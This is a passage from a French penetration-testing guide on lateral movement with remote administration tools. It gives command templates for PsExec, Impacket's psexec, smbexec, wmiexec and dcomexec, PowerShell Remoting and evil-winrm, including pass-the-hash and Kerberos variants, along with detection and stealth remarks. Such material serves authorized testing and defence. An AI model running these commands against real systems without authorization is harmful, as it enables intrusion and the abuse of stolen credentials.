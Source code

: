 # VI.D. Utilisation d'Outils d'Administration à Distance

Plusieurs outils, qu'ils soient légitimes (faisant partie de Windows ou de suites d'administration) ou développés spécifiquement pour les tests d'intrusion, facilitent l'exécution de commandes et le contrôle à distance de machines. Ces outils s'appuient souvent sur les protocoles décrits précédemment (SMB, WMI, WinRM).

## 1. PsExec (Sysinternals)

*   **Description :** Outil légitime de la suite Sysinternals, largement utilisé par les administrateurs et les attaquants. Il permet d'exécuter des processus sur des systèmes distants.
*   **Fonctionnement :** Utilise SMB pour copier `PSEXESVC.exe` dans `ADMIN$` sur la cible, puis crée et démarre un service temporaire pour exécuter la commande.
*   **Prérequis :** Droits d'admin local sur la cible, partage `ADMIN$` accessible, service "Server" en cours d'exécution sur la cible.
*   **Utilisation (Windows) :**
    ```bash
    # Obtenir un shell interactif
    PsExec.exe \\<IP_CIBLE_OU_NOM> -u <DOMAINE>\<UTILISATEUR> -p <MOT_DE_PASSE> cmd.exe
    # Exécuter une commande spécifique
    PsExec.exe \\<IP_CIBLE_OU_NOM> -u <DOMAINE>\<UTILISATEUR> -p <MOT_DE_PASSE> ipconfig
    # Exécuter en tant que SYSTEM (si vous êtes déjà admin local)
    PsExec.exe \\<IP_CIBLE_OU_NOM> -s cmd.exe
    ```
*   **Détection :** La création du service `PSEXESVC` et l'exécution de `PSEXESVC.exe` depuis `C:\Windows\` sont des indicateurs classiques. Les EDRs le détectent souvent.

## 2. Impacket `psexec.py` (Linux)

*   **Description :** Fait partie de la suite Impacket, réimplémentation de PsExec en Python.
*   **Fonctionnement :** Similaire à PsExec original. Supporte Pass-the-Hash et Kerberos.
*   **Utilisation (Linux) :**
    ```bash
    # Avec mot de passe
    psexec.py <DOMAINE>/<UTILISATEUR>:<MOT_DE_PASSE>@<IP_CIBLE>
    # Avec Pass-the-Hash
    psexec.py <DOMAINE>/<UTILISATEUR>@<IP_CIBLE> -hashes aad3b435b51404eeaad3b435b51404ee:<HASH_NTLM>
    # Avec Kerberos (si KRB5CCNAME est configuré avec un TGT valide)
    psexec.py <DOMAINE>/<UTILISATEUR>@<IP_CIBLE_FQDN> -k -no-pass
    ```

## 3. Impacket `smbexec.py` (Linux)

*   **Description :** Alternative à `psexec.py` qui tente d'être plus furtive. Au lieu de dropper un binaire, elle utilise des commandes `cmd.exe /c` redirigées via un partage SMB temporaire pour simuler un shell.
*   **Fonctionnement :** Crée un partage SMB temporaire sur la machine de l'attaquant (ou utilise un existant), puis exécute des commandes sur la cible en redirigeant la sortie vers ce partage.
*   **Utilisation (Linux) :**
    ```bash
    # Avec mot de passe
    smbexec.py <DOMAINE>/<UTILISATEUR>:<MOT_DE_PASSE>@<IP_CIBLE>
    # Avec Pass-the-Hash
    smbexec.py <DOMAINE>/<UTILISATEUR>@<IP_CIBLE> -hashes aad3b435b51404eeaad3b435b51404ee:<HASH_NTLM>
    # Exécuter une commande unique
    smbexec.py <DOMAINE>/<UTILISATEUR>@<IP_CIBLE> -hashes ... -C "whoami"
    ```
*   **Furtivité :** Moins de traces de service/binaire sur la cible, mais génère du trafic SMB.

## 4. Impacket `wmiexec.py` (Linux)

*   **Description :** Utilise WMI pour obtenir un shell semi-interactif.
*   **Fonctionnement :** Interagit avec WMI sur la cible pour créer des processus et récupérer leur sortie.
*   **Utilisation (Linux) :**
    ```bash
    # Avec mot de passe
    wmiexec.py <DOMAINE>/<UTILISATEUR>:<MOT_DE_PASSE>@<IP_CIBLE>
    # Avec Pass-the-Hash
    wmiexec.py <DOMAINE>/<UTILISATEUR>@<IP_CIBLE> -hashes aad3b435b51404eeaad3b435b51404ee:<HASH_NTLM>
    ```

## 5. Impacket `dcomexec.py` (Linux)

*   **Description :** Utilise DCOM pour exécuter des commandes à distance. Peut être utile si WMI ou SMB sont restreints mais DCOM est accessible.
*   **Fonctionnement :** Exploite différentes méthodes DCOM (comme ShellExecute, ShellWindows) pour lancer des commandes.
*   **Utilisation (Linux) :**
    ```bash
    dcomexec.py <DOMAINE>/<UTILISATEUR>:<MOT_DE_PASSE>@<IP_CIBLE> -object <OBJET_DCOM> <COMMANDE>
    # Exemple:
    dcomexec.py <DOMAINE>/<UTILISATEUR>:<MOT_DE_PASSE>@<IP_CIBLE> MMC20.Application "notepad.exe"
    ```

## 6. PowerShell Remoting / `Enter-PSSession` / `Invoke-Command`

*   **Description :** Fonctionnalités natives de Windows pour l'administration à distance via WinRM.
*   **Utilisation (Windows PowerShell) :**
    ```powershell
    # Session interactive
    Enter-PSSession -ComputerName <IP_CIBLE_OU_NOM> -Credential (Get-Credential)
    # Commande unique
    Invoke-Command -ComputerName <IP_CIBLE_OU_NOM> -ScriptBlock { hostname } -Credential (Get-Credential)
    ```
*   Voir [VI.C Exploitation de Services Réseau](./C-exploitation-services-reseau.md#2-winrm-windows-remote-management--powershell-remoting) pour plus de détails.

## 7. evil-winrm (Ruby)

*   **Description :** Client WinRM populaire, facile à utiliser, supporte Pass-the-Hash.
*   **Utilisation :**
    ```bash
    evil-winrm -i <IP_CIBLE> -u <UTILISATEUR> -p <MOT_DE_PASSE_OU_HASH_NTLM>
    # Si c'est un hash, utiliser -H <HASH_NTLM> ou simplement fournir le hash au lieu du mot de passe.
    ```

## Considérations
*   **Living Off the Land (LotL) :** L'utilisation d'outils natifs comme PowerShell Remoting ou `wmic` peut être plus furtive que l'introduction d'outils tiers comme PsExec.
*   **Détection :** Les EDRs et les solutions de surveillance réseau sont de plus en plus efficaces pour détecter l'utilisation abusive de ces outils, même légitimes.
*   **Permissions :** Toutes ces méthodes nécessitent généralement des droits d'administrateur local sur la machine cible.
*   **Configuration Réseau/Pare-feu :** Les ports et protocoles requis (SMB:445, WinRM:5985/5986, RPC pour WMI) doivent être ouverts entre l'attaquant et la cible.

Choisir l'outil dépend du contexte, des défenses en place, et des credentials disponibles. 